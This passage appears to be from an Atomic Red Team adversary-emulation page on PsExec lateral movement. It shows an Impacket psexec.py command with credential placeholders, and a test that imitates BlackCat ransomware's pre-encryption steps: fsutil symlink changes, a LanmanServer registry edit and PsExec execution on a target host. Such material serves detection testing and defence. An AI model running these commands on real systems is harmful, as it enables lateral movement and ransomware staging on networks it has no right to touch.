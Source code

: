 
#### Attack Commands: Run with `bash`! 


```bash
psexec.py '#{domain}/#{username}:#{password}@#{remote_host}' '#{command}'
```




#### Dependencies:  Run with `bash`!
##### Description: psexec.py (Impacket)
##### Check Prereq Commands:
```bash
if [ -x "$(command -v psexec.py)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
sudo pip3 install impacket
```




<br/>
<br/>

## Atomic Test #4 - BlackCat pre-encryption cmds with Lateral Movement
This atomic attempts to emulate the unique behavior of BlackCat ransomware prior to encryption and during Lateral Movement attempts via PsExec on Windows. Uses bundled PsExec like BlackCat

**Supported Platforms:** Windows


**auto_generated_guid:** 31eb7828-97d7-4067-9c1e-c6feb85edc4b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| targethost | Target hostname to attempt psexec connection to for emulation of lateral movement. | string | $ENV:COMPUTERNAME|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cmd.exe /c "wmic 	csproduct 	get UUID" 
cmd.exe /c "fsutil behavior 	set SymlinkEvaluation R2L:1" 
cmd.exe /c "fsutil behavior set 	SymlinkEvaluation R2R:1"
reg    add    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters    /v MaxMpxCt /d 65535 /t REG_DWORD /f      
copy "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" $env:temp
cmd.exe /c "$env:temp\psexec.exe  -accepteula  \\#{targethost} cmd.exe  /c echo "--access-token""
```
